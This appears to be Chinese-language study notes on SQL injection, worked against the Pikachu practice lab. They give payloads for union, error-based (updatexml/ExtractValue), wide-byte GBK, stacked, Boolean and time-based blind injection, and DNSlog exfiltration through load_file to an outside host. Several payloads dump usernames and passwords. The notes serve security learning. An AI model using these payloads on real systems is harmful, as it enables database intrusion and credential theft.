# SQL注入实例


## 数字型注入

1.发送请求，Burp抓包

2.数据中加入“or 1=1”

```shell
or 1=1
```


3.响应结果




## 字符型注入

1.搜索框（请求数据）中加入“' or 1=1#”

```shell
' or 1=1#
```


2.搜索框（请求数据）中加入“' or 1=1 union select username,password from users#”

```shell
' or 1=1 union select username,password from users#
```


3.响应结果






## 搜索型注入

1.搜索框（请求数据）中加入“%' or 1=1#”

```shell
%' or 1=1#
```

2.响应结果




## XX型注入

1.搜索框（请求数据）中加入"') or 1=1#"（注意符号用英文）

```shell
') or 1=1#
```

2.响应内容




## Json注入

1.在json数据中加入“ ' or 1=1#”

```shell
json={"username":"admin"} --> json={"username":"admin' or 1=1#"}
```

2.响应结果



## 报错注入

SQL语句执行带有错误参数的数据库常用函数时会报错，如果服务端没有对报错信息进行过滤，直接相应给客户端，就会造成敏感信息泄露。

```shell
select updatexml(1,concat('>>',(select version()),'<<'),1);  ##故意输入错的参数
ERROR 1105 (HY000)：XPATH syntax error：'>>5.5.53<<'  ##报错信息-->数据库版本号

select updatexml(1,concat('>>',(select user()),'<<'),1);  ##故意输入错的参数
ERROR 1105 (HY000)：XPATH syntax error：'>>root@localhost<<'  ##报错信息-->当前登录用户

select updatexml(1,concat('>>',(select database()),'<<'),1);  ##故意输入错的参数
ERROR 1105 (HY000)：XPATH syntax error：'>>pikachu<<'  ##报错信息-->当前数据库
```

```shell
select ExtractValue(1,concat('>>',(select version()),'<<'));  ##故意输入错的函数
ERROR 1105 (HY000)：XPATH syntax error：'>>5.5.53<<'  ##报错信息-->数据库版本号

select ExtractValue(1,concat('>>',(select user()),'<<'));  ##故意输入错的函数
ERROR 1105 (HY000)：XPATH syntax error：'>>root@localhost<<'  ##报错信息-->当前登录用户

select ExtractValue(1,concat('>>',(select database()),'<<'));  ##故意输入错的函数
ERROR 1105 (HY000)：XPATH syntax error：'>>pikachu<<'  ##报错信息-->当前数据库
```


## http header

有的服务端会提取请求头保存到数据库，这时就有可能存在SQL注入点。可以把每个请求头都试试，看看是否有哪个请求头存在SQL注入点

1.想办法让数据库进行报错，如在响应头键值对后面加入

```shell
'or updatexml(1,(concat('>>',(select version()),'<<')),1) or'  #获取数据库版本号
'or updatexml(1,(concat('>>',(select user()),'<<')),1) or'  #获取当前登录用户
'or updatexml(1,(concat('>>',(select database()),'<<')),1) or'  #获取当前数据库
```

2.响应结果








**information_schema**库中存储了所有库名、表名、字段名，受"concat"函数限制，每次只能查询一列一行的数据，用"limit x,1"限制查询条数

### 爆表名

**pikachu库里有哪些表**

```shell
k' and updatexml(1,(concat(0x7e,(select table_name from information_schema.tables where table_schema="pikachu" limit 0,1),0x7e)),1)#  
```


### 爆字段名

**pikachu库里的httpinfo表有哪些字段**

```shell
k' and updatexml(1,(concat(0x7e,(select column_name from information_schema.columns where table_name="httpinfo" and table_schema="pikachu" limit 0,1),0x7e)),1)#  
```



### 爆字段内容

**pikachu库里的httpinfo表的id字段有哪些内容**

```shell
k' and updatexml(1,concat(0x7e,(select id from httpinfo limit 0,1),0x7e),1)#
```



如果知道**users表**中有**username**和**password**两个字段，那就有意思了

```shell
k' and updatexml(1,(concat(0x7e,(select username from users limit 0,1),0x7e)),1)#
```



```shell
k' and updatexml(1,(concat(0x7e,(select password from users limit 0,1),0x7e)),1)#
```




## insert/update/delete

注册、更新、删除信息时，服务端需要对数据库写入信息。服务端未对提交信息进行有效筛选，直接拼接SQL语句执行，形成SQL注入点

1.在提交信息中加报错语句（请求头数据需要URL编码）

```shell
'or updatexml(1,(concat('>>',(select version()),'<<')),1) or'
```


## 宽字节注入

服务端在把提交数据进行SQL语句拼接前对数据进行了转义。在数据中的单引号等特殊符号前面加了“\”来进行转义

单引号变成普通符号，失效了



如果服务端使用的是GBK编码，通过在提交数据中的单引号`0x27`前面加`0xDF`的方法。

服务端转义机制识别到单引号`0x27`之后再它前面加反斜杠`0x5C`,此时字节流变成`0xDF` `0x5C` `0X27`

服务端使用**GBK 字符集**处理这段字节流，会按双字节规则解析：

第一个双字节：`0xDF 0x5C` → 被 GBK 识别为**一个完整的汉字**（比如`運`），这两个字节被 “合并” 成一个字符，反斜杠`\`被 “吃掉” 了！

剩下的字节：`0x27` → 独立的单引号`'`，没有被转义！



宽字节注入的本质是：**利用 GBK 双字节编码的特性，让转义添加的反斜杠被 “吃掉”，原本被转义的单引号重新变成可执行的 SQL 语法字符**，从而绕开转义机制。


## 偏移量注入

在注入点进行union联合查询时通过`select 1,2,3,users.*`或`select *,1,2,3`的方式补全后面查询的表与前面查询的表的列数，并使想查询的数据与前面表查询出的字段对应

**限制条件**：

1.后端代码写死的查询语句查询的字段必须比想获取的表的字段多，才能用`123`补齐

2.你想要的字段数据通过偏移后要跟服务端展示的字段数据对应上，才能拿到想要的数据


## 加密注入

客户端JS代码对提交数据进行加密，抓包之后需要用相同的加密逻辑对注入payload进行加密后添加到响应位置，防止服务端无法正确识别数据


## 堆叠注入

用`;`分割的多条SQL语句同时执行。

```shell
jaden';create database xxx  #提交数据
select id from users where name='jaden';create database xxx;  #服务端执行
```

**PHP+Mysql 部分函数支持堆叠注入**

`mysqli_query`不支持堆叠注入

`mysqli_multi_query`支持堆叠注入

**SQL Server 全部函数支持堆叠注入**

**Oracle不支持堆叠注入**


## 二次注入

服务端的转义机制对数据加了`\`转义，但在写入数据库时进行原文写入。攻击者通过某种手段使服务端代码调用写入的脏数据拼接SQL语句执行。


## 报错注入原理解释

### 工程师视角

后端代码未对请求数据进行严格筛选、未对报错信息进行有效拦截。攻击者在请求数据中加入带有错误参数格式的特定函数。代码自动拼接指令并在MYSQL（数据库）自动执行后回显报错信息。

### 通俗解释

秘密基地看守值班时注意力不集中，没有对进入基地的人员进行有效管控，基地也没有进行区域屏蔽信号。导致小偷潜入基地后获取具体地形布局信息并通过网络发送给了基地外面的同伙。


## 阶段复盘

以上学习部分为检测阶段

1.查询动作用`or 1=1`、`and 1=1`、`and 1=2`检测

2.写入动作用报错注入`updatexml(1,(concat(0x7e,(select database()),0x7e)),1)`检测


## 盲注

指定两个筛选条件，如果两个条件都为真，页面正常相应；否则页面无数据 / 异常。


正常`or 1=1`查询注入和`updatexml(1,(concat(0x7e,(select database()),0x7e)),1)`写入注入可能会被服务端拦截响应信息。

**两种可能**

1.服务端拦截了返回的信息

2.服务端不存在SQL注入点


### 布尔型盲注（base on Boolean）

**遍历爆破数据库名长度**

```shell
length(database())  #当前数据库名称的长度

length(database())=7  #当前数据库名称的长度是否等于7

vince' and length(database())=7#  #向服务端提交数据
```

逻辑：只有当`username='vince'`且数据库名长度等于7时，SQL 条件才为真，页面才会正常返回数据；否则页面无数据 / 异常。


**爆破数据库名**

```shell
select substr(database(),1,1)  #数据库名从第一个字母开始数的第一个字母是什么

select ascii(substr(database(),1,1))  #它的ascii码是什么

select ascii(substr(database(),1,1))>112;  #它的ascii码是否>112

select ascii(substr(database(),1,1))<112;  #它的ascii码是否<112

vince' and ascii(substr(database(),1,1))=112#  #向服务端提交数据
```

逻辑：只有当`username='vince'`且数据库名第 1 个字符的 ASCII 码等于 112（即字符p）时，SQL 条件才为真，页面才会正常返回数据；否则页面无数据 / 异常。


### 时间型盲注（base on Time）

#### 测试

```shell
vince' and sleep(5)#  #如服务端执行，代表存在SQL注入点
```

#### 猜接数据

在为真的条件后面拼接延迟响应条件猜解数据

如果`database()`第一个字母为"p"，就休眠5秒；反之就打印"xx"

```shell
vince' and if(substr(database(),1,1)='p',sleep(5),'xx')#
```

服务端拼接执行SQL语句

```shell
select * from users where name='vince' and if(substr(database(),1,1)='p',sleep(5),'xx');
```


## DNSlog注入

### 原理

1.提交数据拼接`load_file('//database().xx.xx.xx')`

2.目标数据库直接拼接SQL语句执行后访问DNS服务器查询`database().xx.xx.xx`对应IP

3.目标数据库到我方DNS服务器查询IP时保留查询日志`database().xx.xx.xx`


### 实验条件

1.目标Mysql开启secure_file_priv=""配置

2.目标Mysql数据库可以访问外网


【持续学习中···】